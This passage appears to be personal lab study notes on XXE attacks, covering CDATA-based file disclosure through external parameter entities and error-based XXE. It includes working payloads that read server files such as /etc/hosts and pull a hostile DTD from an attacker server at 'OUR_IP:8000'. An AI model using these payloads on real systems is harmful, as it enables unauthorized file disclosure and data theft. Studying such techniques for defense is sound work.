 ```xml
```
And then reference `&a0;`. No longer works with modern web servers, as they protect against entity self-reference. 

### Advanced file disclosure
#### CDATA
PHP filters before allowed us to view some files, but what about others? We can use another method to exfil data (inc. binary). The method is wrapping with `CDATA` e.g. `<![CDATA[ FILE_CONTENT ]>`. One way to get this in something we can manipulate:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

We then reference `&joined;`. Sadly will not work since XML prevents joining internal and external entites. To bypass, we utilize XML parameter entities. What's unique about parameter entities is that if we reference them from an external source, then all of them would be considered as external and can be joined:
```xml
<!ENTITY joined "%begin;%file;%end;">
```

and put this on our exploit server:
```bash
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000
```

And define the parameter entities with the `%`:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Annoyingly I could not get this working on the pwnbox. Unable to tell why....

#### Error based
If web app displays runtime errors, it does not have proper execption handling for the XML. We can use this to reat the output of the XXE exploit. If web app neither writes XML output nor displays any errors, then its a completley blind situation. 

Detected by putting `&nonExistingEntity;` and reading a runtime exception in the response. New dtd file to host:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
Works by defining the file parameter entity and then joins with an entity that does not exist. We are expecting the file to be a part of the error. Other variables like a bad URI or bad characters in the referencd file. 
